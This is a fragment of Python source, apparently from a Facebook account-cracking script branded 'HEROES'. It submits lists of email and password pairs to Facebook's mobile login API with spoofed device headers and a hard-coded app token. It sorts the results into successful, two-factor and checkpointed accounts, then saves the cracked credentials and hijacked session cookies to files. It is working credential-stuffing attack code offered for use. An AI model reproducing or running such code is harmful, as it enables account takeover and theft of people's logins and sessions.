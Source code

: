                         data={'meta_inf_fbmeta': 'NO_FILE', 'adid': '8ecEA4acCe1CD36A', 'format': 'json', 'device_id': 'cee88ca9-2807-46e1-90b1-d844c2d35a66', 'cpl': 'true', 'family_device_id': '5fd72445-770d-4d03-a3b2-f40b86f0d79d', 'credentials_type': 'device_based_login_password', 'error_detail_type': 'button_with_disabled', 'source': 'device_based_login', 'email': ids, 'password': pas, 'access_token': '350685531728|62f8ce9f74b12f84c123cc23437a4a32', 'generate_session_cookies': '1', 'meta_inf_fbmeta': '', 'advertiser_id': '8b59ed89-4b88-4f69-a1ed-dfea59e76839', 'currently_logged_in_userid': '0', 'locale': 'en_GB', 'client_country_code': 'GB', 'method': 'auth.login', 'fb_api_req_friendly_name': 'authenticate', 'fb_api_caller_class': 'com.facebook.account.login.protocol.Fb4aAuthHandler', 'api_key': '882a8490361da98702bf97a021ddc14d'}
                        headers={'User-Agent': heros_UA(), 'Accept-Encoding': 'gzip, deflate', 'Accept': '*/*', 'Connection': 'keep-alive', 'Content-Type': 'application/x-www-form-urlencoded', 'Host': 'graph.facebook.com', 'X-FB-Net-HNI': '25227', 'X-FB-SIM-HNI': '29752', 'X-FB-Connection-Type': 'MOBILE.LTE', 'X-Tigon-Is-Retry': 'False', 'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62', 'x-fb-device-group': '5120', 'X-FB-Friendly-Name': 'ViewerReactionsMutation', 'X-FB-Request-Analytics-Tags': 'graphservice', 'X-FB-HTTP-Engine': 'Liger', 'X-FB-Client-IP': 'True', 'X-FB-Server-Cluster': 'True', 'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62', 'Content-Length': '706'}
			
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                        print('\r\r\033[1;32m [HEROES-OK] '+ids+' | '+pas+'\033[1;97m')
                                        coki = ";".join(i["name"]+"="+i["value"] for i in po["session_cookies"])
                                        open('/sdcard/HEROES-COOKIE.txt','a').write(ids+'|'+pas+ ' | ' +coki+'\n')
                                        open('/sdcard/HEROES-OK.txt','a').write(ids+'|'+pas+'\n')
                                        oks.append(ids)
                                        break
                        elif twf in str(po):
                                        if 'y' in pcp:
                                                print('\r\r \033[1;34m[HEROES-2F] '+ids+' | '+pas)
                                                twf.append(ids)
                                                break
                        elif 'www.facebook.com' in po['error']['message']:
                                        if 'y' in pcp:
                                                print('\r\r\x1b[1;31m [HEROES-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/HEROES-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                                        else:
                                                open('/sdcard/HEROES-CP.txt','a').write(ids+'|'+pas+'\n')
                                                break
                                                cps.append(ids)
                        else:
                                        continue
                loop+=1
        except Exception as e:
                pass